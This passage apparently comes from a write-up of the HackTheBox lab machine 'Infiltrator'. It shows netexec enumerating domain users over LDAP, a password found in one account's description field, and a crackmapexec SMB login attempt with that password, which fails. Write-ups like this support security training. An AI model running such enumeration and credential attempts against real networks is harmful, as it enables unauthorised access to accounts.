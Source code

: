 ```
User        : LocalSystem
StartMode   : Automatic
```

### 6.2. Finding another way

The PrivescCheck didn't reveal much, let's go check the users again

```console
root@kali:~# netexec ldap infiltrator.htb -u l.clark -p 'WAT?watismypass!' --users
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.31     389    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
LDAP        10.10.11.31     389    DC01             [*] Enumerated 12 domain users: infiltrator.htb
LDAP        10.10.11.31     389    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
LDAP        10.10.11.31     389    DC01             Administrator                 2024-08-21 19:58:28 0       Built-in account for administering the computer/domain
LDAP        10.10.11.31     389    DC01             Guest                         <never>             1       Built-in account for guest access to the computer/domain
LDAP        10.10.11.31     389    DC01             krbtgt                        2023-12-04 17:36:16 1       Key Distribution Center Service Account
LDAP        10.10.11.31     389    DC01             D.anderson                    2023-12-04 18:56:02 0
LDAP        10.10.11.31     389    DC01             L.clark                       2023-12-04 19:04:24 0
LDAP        10.10.11.31     389    DC01             M.harris                      2024-12-26 13:21:41 0
LDAP        10.10.11.31     389    DC01             O.martinez                    2024-02-25 15:41:03 0
LDAP        10.10.11.31     389    DC01             A.walker                      2023-12-05 22:06:28 1
LDAP        10.10.11.31     389    DC01             K.turner                      2024-02-25 15:40:35 3       MessengerApp@Pass!
LDAP        10.10.11.31     389    DC01             E.rodriguez                   2024-12-26 13:21:41 0
LDAP        10.10.11.31     389    DC01             winrm_svc                     2024-08-02 22:42:45 0
LDAP        10.10.11.31     389    DC01             lan_managment                 2024-08-02 22:42:46 0
```

It seems account `K.turner` has a rather cryptic description `MessengerApp@Pass!`

It doesn't seem feasible to login with `k.turner`/`MessengerApp@Pass!`

```console
root@kali:~# crackmapexec smb dc01.infiltrator.htb -u k.turner -p 'MessengerApp@Pass!' -d infiltrator.htb
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE
```
